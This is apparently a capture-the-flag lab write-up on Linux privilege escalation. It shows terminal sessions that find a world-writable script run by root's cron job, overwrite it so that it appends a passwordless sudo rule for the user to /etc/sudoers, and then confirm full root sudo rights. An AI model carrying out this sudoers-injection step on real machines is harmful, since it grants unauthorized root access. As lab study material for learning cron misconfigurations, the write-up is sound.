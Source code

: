## 我自己的思路
Cron is a life save for admins when it comes to doing periodic maintainence tasks on the system. They can even be used in cases where tasks are performed within individual user directories. However, such automations need to be used with caution or can lead to easy privilege escalation attacks.

Your mission is to get a root shell on the boxand retrieve the flag!

```
student@attackdefense:~$ whoami
student
student@attackdefense:~$ groups student
student : student
student@attackdefense:~$ ls -al
total 12
drwxr-xr-x 1 student student 4096 Sep 23  2018 .
drwxr-xr-x 1 root    root    4096 Sep 23  2018 ..
-rw------- 1 root    root      26 Sep 23  2018 message
student@attackdefense:~$ cat message
cat: message: Permission denied
student@attackdefense:~$ pwd
/home/student
```

```
student@attackdefense:~$ grep -rnw /usr -e '/home/student/message'
/usr/local/share/copy.sh:2:cp /home/student/message /tmp/message
student@attackdefense:~$ ls -al /tmp
total 12
drwxrwxrwt 1 root root 4096 Nov  1 02:42 .
drwxr-xr-x 1 root root 4096 Nov  1 02:32 ..
-rw-r--r-- 1 root root   26 Nov  1 02:42 message
student@attackdefense:~$ cat /tmp/message
Hey!! you are not root :(
```

```
student@attackdefense:~$ ls -al /usr/local/share/copy.sh
-rwxrwxrwx 1 root root 74 Sep 23  2018 /usr/local/share/copy.sh
student@attackdefense:~$ cat /usr/local/share/copy.sh
#! /bin/bash
cp /home/student/message /tmp/message
chmod 644 /tmp/message
```

```
student@attackdefense:~$ printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh
student@attackdefense:~$ cat /usr/local/share/copy.sh
#!/bin/bash
echo "student ALL=NOPASSWD:ALL" >> /etc/sudoers
```

```
student@attackdefense:~$ sudo -l
Matching Defaults entries for student on attackdefense:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User student may run the following commands on attackdefense:
    (root) NOPASSWD: /etc/init.d/cron
    (root) NOPASSWD: ALL
    (root) NOPASSWD: ALL
```

